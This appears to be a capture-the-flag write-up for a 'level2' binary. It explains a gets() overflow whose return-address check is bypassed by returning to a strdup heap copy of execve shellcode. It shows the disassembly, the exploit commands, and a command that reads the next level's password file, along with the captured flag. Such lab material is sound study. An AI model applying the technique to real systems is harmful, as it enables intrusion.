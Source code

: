 solution level2:

-> with gdb, we see that the main simply calls a function called p

-> the function p uses gets, so we can certainly exploit the buffer overflow vulnerability. There are no functions in the program calling either system or execve so we will insert a shellcode in our buffer. This shellcode will launch a new shell with execve.

-> however, right after the calll to gets, the function fetches the return address (the saved eip) and performs a check:
...
0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
...

-> if the return address starts by 0xb, the function exits

-> else the function calls puts, then returns the return value of the call to strdup with the buffer as argument
...
0x08048532 <+94>:	lea    eax,[ebp-0x4c]
0x08048535 <+97>:	mov    DWORD PTR [esp],eax
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
...

-> since our buffer is on the stack and the addresses of our stack frame start with 0xb, changing the return address to the beginning of the buffer won't work. We have to find another way to pass the address check at <p+44>

-> fortunately, the return value of our call to strdup is 0x804a008, which would pass the check. And we know the return value of strdup is the address of our duplicated buffer, in other words it points to the beginning of our shellcode.

> scp -P 2222 Ressources/run.sh level2@127.0.0.1:/tmp/

> bash -x /tmp/run.sh
> cat /tmp/overf - | ./level2
> cat /home/user/level3/.pass
> 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

